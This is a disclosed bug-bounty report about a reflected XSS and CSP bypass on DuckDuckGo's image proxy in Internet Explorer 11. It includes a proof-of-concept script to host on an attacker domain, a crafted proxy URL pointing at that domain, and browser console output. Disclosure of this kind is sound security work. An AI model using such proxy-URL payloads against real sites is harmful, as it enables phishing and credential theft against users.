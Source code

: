 # XSS in Subdomain of DuckDuckGo

## Report Details
- **Report ID**: 395734
- **URL**: https://hackerone.com/reports/395734
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-08-16T04:41:01.995Z
- **Disclosed**: 2024-02-01T15:35:41.967Z

## Reporter
- **Username**: mr_r3boot
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: duckduckgo

## Vulnerability Information
Hi Team,

I would like to report CSP bypass and full fledged reflected xss on ```proxy.duckduckgo.com```.

#Description:
On proxy domain to avoid script executions there is presence of CSP header ```script-src``` which set to none. In order to exploit this issue a remote attacker need to submit a valid nonce generated by Content Security Policy. But due to the fact that IE still doesn't support this header as stated in ```https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP#Browser_compatibility```. So it is possible to bypass this restriction.

#Steps to Reproduce:
1. Host following script in your domain.
```
<html><script>alert(document.domain);</script></html>
```

2. Share the following URL with victim.
```
https://proxy.duckduckgo.com/iur/?f=1&image_host=http://attackerdomain.com/xsspage
```
3. Once if victim open the link in IE then he/she can see the script will get executed in the context of duckduckgo domain.

#Browser Tested on:
1. IE 11.192 - We can see script execution.
2. Microsoft Edge 41.16299.15.0 - ```CSP14321: Resource violated directive 'script-src 'none'' in Content-Security-Policy: inline script, in https://proxy.duckduckgo.com/iur/?f=1&image_host=http://138.197.172.108/index.html at line 1 column 8. Resource will be blocked.```
3. Mozilla Firefox 52 - ```Content Security Policy: The page’s settings blocked the loading of a resource at self (“script-src 'none'”). Source: 
alert(document.domain);```
4. Google Chrome Version 68.0.3440.106 (Official Build) (64-bit) - ```Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'none'". Either the 'unsafe-inline' keyword, a hash ('sha256-LNFMfdZ+OpsZfPTkBYm2BOeU5h3C3lAC8Em3x/Rc9mA='), or a nonce ('nonce-...') is required to enable inline execution.```

## Impact

1. Attacker can host a spoofed login page and can sniff all credentials.
2. It's possible to dos victims browser

## Attachments
- xss.png
- response.png
